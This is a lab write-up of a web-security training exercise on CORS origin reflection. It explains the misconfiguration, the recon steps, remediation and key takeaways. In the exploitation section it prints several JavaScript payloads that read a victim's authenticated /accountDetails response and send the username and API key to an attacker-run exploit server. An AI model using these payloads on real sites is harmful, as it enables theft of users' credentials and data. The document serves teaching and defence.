




# CORS vulnerability with basic origin reflection

### Goal - 

Craft some JavaScript that uses CORS misconfiguration to retrieve the administrator’s API key


### Vulnerability / Concept

Cross-Origin Resource Sharing (CORS) is a browser mechanism that controls cross-origin HTTP requests. When misconfigured, CORS can allow any website to read responses from the target application with the victim's credentials.

Dangerous CORS misconfigurations include: reflecting arbitrary Origin headers with `Access-Control-Allow-Credentials: true`, trusting the `null` origin, trusting insecure (HTTP) origins, and trusting internal network origins that enable pivot attacks.

CORS is not a vulnerability by itself — it's a relaxation of the Same-Origin Policy. The vulnerability arises when the server's CORS policy is too permissive, allowing untrusted origins to read authenticated responses.

### Recon / Initial Analysis

1. Identify if the application sets `Access-Control-Allow-Origin` headers
2. Test if the Origin header is reflected in the response
3. Check if `Access-Control-Allow-Credentials: true` is set
4. Test if `null` origin is trusted (use sandboxed iframe)
5. Check if HTTP (non-HTTPS) origins are trusted
6. Test if internal network origins are trusted (for pivot attacks)
7. Verify if the CORS policy is per-origin or uses wildcards

### Analysis/Exploitation -

Login as user `wiener`:



When we’re logged in, it’ll also send a GET request to `/accountDetails` to obtain the API key, and **the response header has **`Access-Control-Allow-Credentials`, which indicates that the web application supports CORS(Cross-Origin Resource Sharing).

send that request to Burp Repeter to test for CORS misconfigurations:

add a HTTP header called `Origin` to an arbitrary value



The origin is reflected within the `Access-Control-Allow-Origin` in response header. This basically tells the browser that any origin value is allowed to access resources 

So craft JavaScript which needs to do three things:

1. call the `/accountDetails` page
1. get the `apikey` from the response
1. issue a request to the exploit server containing this value

As a first attempt I try to access the response from `/accountDetails` within a JavaScript on the exploit server and simply write it to the page. Fortunately, the documentation on mozilla.org for [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) shoes everything that is required:


💡 Need to find why

```perl
<script>
   var r = new XMLHttpRequest();
   r.open('get', 'https://ac751fb51e9a30b8c0e42a370085005c.web-security-academy.net/accountDetails', true);
   r.withCredentials = true;
   r.send();
   document.write(r.responseText);
</script>
```

The exploit writes the structure obtained from /accountDetails on the screen:

So now update the script to generate a second request to the exploit server, containing username and APIkey. Use JSON.parse() to have a cleaner log entry:

```perl
<script>
// First XMLHttpRequest
var r = new XMLHttpRequest();
r.open('GET', 'https://ac751fb519a30b8c0e42a370085005c.web-security-academy.net/accountDetails', true);
r.withCredentials = true;
r.send();

// Second XMLHttpRequest
const obj = JSON.parse(r.responseText);
var r2 = new XMLHttpRequest();
r2.open('GET', 'https://exploit-ac331fea1e9c3019c02f2a21017000ad.web-security-academy.net/?user=' + obj.username + '&apikey=' + obj.apikey, true);
r2.send();
</script>
```




```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0acf0004048d1624806b0314003d007d.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```



Once delivered to the victim, the log shows the required data:



Now submit the `apikey`

### Why It Works

The server's CORS policy reflects the Origin header from the request into the `Access-Control-Allow-Origin` response header without validation. Combined with `Access-Control-Allow-Credentials: true`, the browser allows the attacker's page to read the authenticated response. The broken trust boundary is between the server and the browser: the server tells the browser it's OK to share the response with any origin, including attacker-controlled ones.

### Real-World Impact

An attacker could:
- Read authenticated API responses from the victim's session
- Steal sensitive data (API keys, personal information, account details)
- Pivot to internal network services via the victim's browser
- Bypass Same-Origin Policy protections entirely
- Perform actions that would normally be blocked by SOP

### Remediation

- Use a strict allowlist of trusted origins — never reflect arbitrary Origin headers
- Do not trust the `null` origin
- Only trust HTTPS origins
- Set `Access-Control-Allow-Credentials: false` unless cross-origin authenticated access is explicitly required
- Do not use wildcard (`*`) with credentials
- Validate origins against a server-side allowlist before reflecting

### Key Takeaways

- Reflecting the Origin header with credentials enabled is a critical CORS misconfiguration.
- The `null` origin is attacker-controllable via sandboxed iframes — never trust it.
- CORS with credentials (`Allow-Credentials: true`) is especially dangerous when origins are not validated.
- Internal network pivot via CORS can expose services not reachable from the internet.
- CORS is a browser-enforced policy — the server must validate origins server-side.
